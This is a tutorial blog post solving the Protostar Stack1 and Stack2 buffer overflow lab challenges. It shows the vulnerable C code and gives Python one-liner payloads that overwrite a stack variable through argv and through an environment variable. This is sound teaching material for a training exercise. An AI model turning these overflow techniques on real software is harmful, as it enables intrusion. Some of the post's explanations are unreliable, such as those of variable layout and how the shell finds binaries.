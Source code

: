 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , Hexadecimal values and Environment Variables ! - Protostar Stack1 , Stack2
categories: binary-exploitation
tags: [Linux, Binary Exploitation, Buffer Overflow, c]
image: binary-exploitation/BOF2/0.png
redirect_from: "/BinaryExploitation-BOF2/"
---
```


<hr>
## Introduction 
#### So last week I talked about bufferoverflows and solved Protostar Stack0. Today I'm gonna solve Stack1 and Stack2, they are not different from Stack0 in their objective which is changing a variable's value , but they are different in the way of changing that variable for sure. With that being said let's jump right in !
![](/images/binary-exploitation/BOF2/0.png)
#### If you haven't read my previous [post](/BinaryExploitation-BOF/) yet I recommend reading it before this.
<br>
<hr>
## Stack1
#### For this challenge we got this code : 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```
<hr>
### Breakdown
#### So this code :
#### creates a variable called "modified" and assigns a buffer of 64 chars to it.
```
volatile int modified; 
char buffer[64];
``` 
<br>
#### Checks if we supplied an argument or not.
```
 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }
```
<br>
#### Sets the value of the "modified" variable into 0 , then it copies whatever we give it `argv[1]` into the buffer of "modified".
```
modified = 0;
strcpy(buffer, argv[1]);
```
<br>
#### Then it checks if the variable's value is `0x61626364` or not
```
if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
```
<br>
<hr>
## Solution
#### So it's similar to Stack0 except we need to set the value of the variable into a specific value which is `0x61626364` in this case. This is the hexadecimal value of "dcba" now keep in mind that when reading hex you read it from right to left not left to right. To slove this our input will be 64 chars then after that the value , let's try it.
#### Let's execute stack1 
![](/images/binary-exploitation/BOF2/1.png)
#### We get please specify an argument so let's enter anything.
![](/images/binary-exploitation/BOF2/2.png)
<br>
<br>
<br>
![](/images/binary-exploitation/BOF2/3.png)
#### We get try again you got 0x00000000 , Let's try to change that by exceeding the buffer and entering any char for example "b"
```
./stack1 `python -c "print ('A' * 64 + 'b')"`
```
![](/images/binary-exploitation/BOF2/4.png)
#### And we see that the value changed to 0x00000062 which is the hex value of "b" so our exploit is working, Let's apply that.
```
./stack1 `python -c "print ('A' * 64 + 'dcba')"`
```
![](/images/binary-exploitation/BOF2/5.png)
#### And we did it ! 
#### But can we do it in another way ? instead of entering ASCII we can use the hex values and python will translate them.
```
./stack1 `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
```
![](/images/binary-exploitation/BOF2/6.png)
<br>
<hr>
## Stack2
#### For this challenge we got this code :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];
 char *variable;

 variable = getenv("GREENIE");

 if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }

 modified = 0;

 strcpy(buffer, variable);

 if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }

}
```
<br>
<hr>
### Breakdown 
#### This code :
#### As always creates a variable called "modified" and assigns a buffer of 64 chars to it 
```
volatile int modified;
char buffer[64];
```
<br>
#### The new thing here is a variable called "variable" which gets its value from an environment variable called "GREENIE". 
```
variable = getenv("GREENIE");
```
<br>
#### The program checks if the variable "variable" has a value or not 
```
if(variable == NULL) {
  errx(1, "please set the GREENIE environment variable\n");
 }
```
<br>
#### Sets the value of modified to 0
```
modified = 0;
```
<br>
#### Then it copies the value of "variable" into the buffer of "modified"
```
strcpy(buffer, variable);
```
<br>
#### After that it checks if the value of "modified" is `0x0d0a0d0a` or not
```
if(modified == 0x0d0a0d0a) {
  printf("you have correctly modified the variable\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
```
<hr>
## Solution 
#### So this time we can't specify the value directly instead of that we have to do it through an environment variable. And this is actually a good example that shows the importance of being creative with your exploits , you won't face the same situation every time so you have to come up with an exploit that fits with the application's functionality.
#### In this situation we can apply our usual exploit and store that value into the environment variable "GREENIE".
#### But wait a minute , what is an environment variable ?
<hr>
### Environment Variables
#### Simply , Environment variables are variables that are being used to store values of some stuff that the system uses also the services can access those variables. For a better demonstration let's see an example.
#### If we take the environment variable BASH and look at it :
![](/images/binary-exploitation/BOF2/7.png)
#### We see that its value is : /bin/bash
#### So for example if I want to run bash I type bash in the terminal instead of `./bin/bash` because the system calls the variable BASH and finds its path.
#### But the system won't store a variable for every binary that exists on the system so there's an environment variable called PATH which has all the possible dirs that could contain bins, So when you type for example : python, it searches in those dirs then executes python 
![](/images/binary-exploitation/BOF2/8.png)
#### So you get the idea. Understanding environment variables is not necessary for this challenge but I wanted to talk about it just to make everything clear for anyone.
#### [More about environment variables](https://en.wikipedia.org/wiki/Environment_variable)
<br>
<hr>
#### Now let's execute stack2
![](/images/binary-exploitation/BOF2/9.png)
#### We get Please set the GREENIE environment variable.
#### There's no environment variable called GREENIE so we need to create it. We will make it's value equal to 64 chars then `0x0d0a0d0a`
#### This time we won't be able to use the value in ASCII like we did with stack1 because `0x0d` is a return `\r` and `0x0a` is a new line `\n` and we can't type those so we will use the hex values and python will translate them.
```
GREENIE = `python -c "print ('A' * 64 + '\x0a\x0d\x0a\x0d')"`
```
![](/images/binary-exploitation/BOF2/10.png)
#### When we look at it we only see the 64 A's and that's because we can't see the new line or the return
#### Now we need to export it to the environment variables list then we are good to go. 
```
export GREENIE
./stack2
```
![](/images/binary-exploitation/BOF2/11.png)
#### And we did it ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Buffer Overflow article : [Binary Exploitation - Buffer Overflow Explained in Detail](/binary-exploitation/bof1/)
#### Next Buffer Overflow article : [Buffer Overflow Practical Examples , metasploit , gdb and objdump ! - protostar stack3](/binary-exploitation/bof3/)
<hr>
